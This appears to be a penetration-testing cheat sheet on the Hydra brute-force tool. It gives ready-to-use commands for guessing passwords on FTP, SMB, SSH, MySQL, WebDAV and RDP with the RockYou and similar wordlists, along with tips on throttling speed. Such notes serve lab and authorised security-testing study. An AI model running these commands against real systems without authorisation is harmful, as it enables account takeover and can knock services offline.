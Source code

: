 # [Hydra](https://rodtrent.substack.com/p/using-kali-linux-and-hydra-for-attack)
> Hydra is extremely functional for brute-forcing MULTIPLE different protocols.

You may need to unzip the RockYou wordlist:
```
gzip -d /usr/share/wordlists/rockyou.txt.gz .
```

## Contents
- [Configuration](#configuration)
  - [Speed Kills, Del](#speed-kills-del)
  - [Common Options](#common-options)
- [Protocol Examples](#specific-protocol-examples): [`FTP`](#ftp), [`SMB`](#smb), [`SSH`](#ssh), [`MySQL`](#mysql), [`WebDAV`](#webdav), [`RDP`](#rdp)

## Configuration

### Speed Kills, Del
- Be very careful with your brute-force speed. You could crash the system or DoS it. 
- The `-t` (tasks) option sets the number of connects in parallel (default is 16)
- You could set `-t 2` or `-t 3` and see if that plays nicer. Hydra actually recommends `-t 1` through `-t 4`.

### Common Options
- `-L` : Indicates the "Login" (capital: file of multiple; lower case for single)
- `-P` : Indicates the "Passwords" (capital: file of multiple; lower case for single)

## Specific Protocol Examples

### FTP
```
hydra -L [path/to/username_file.txt] -P [path/to/password_file.txt] [target ip] ftp
```

### SMB
```
hydra -l admin -P /usr/share/wordlists/rockyou.txt [target IP] smb
```

### SSH
```
hydra -l student -P rockyou.txt [ip] ssh
```

### MySQL
```
hydra -l root -P /usr/share/metasploit_framework/data/wordlists/unix_passwords.txt [target ip] mysql
```

### WebDAV
```
hydra -L /.../common-users.txt -P  /.../common-passwords.txt [target ip] http-get /webdav/
```
- `http-get` : Indicates the protocol to be used
- `/webdav/` : Indicates the directory where hydra can find the authentication mechanism

### RDP
```
hydra -L users.txt -P passwords.txt [target ip] rdp -s 3333
```
- `-s` : service port (if different than the default)
